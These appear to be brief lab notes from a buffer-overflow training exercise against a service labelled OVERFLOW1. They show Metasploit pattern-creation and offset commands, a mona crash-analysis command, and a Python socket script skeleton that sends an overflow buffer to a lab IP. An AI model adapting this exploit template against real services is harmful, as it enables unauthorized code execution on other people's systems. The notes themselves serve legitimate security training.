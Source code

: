 there is a script for generating the pattern

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

with the help of mona

```
!mona findmsp -distance 3000
```

automation script

```
import socket

ip = "10.10.56.22"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```

the value 2000 was taken from the previous stem

Take a look at the EIP value, e.g. `6F43396E`

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 6F43396E  
```

you will get the `[*] Exact match at offset 1978`

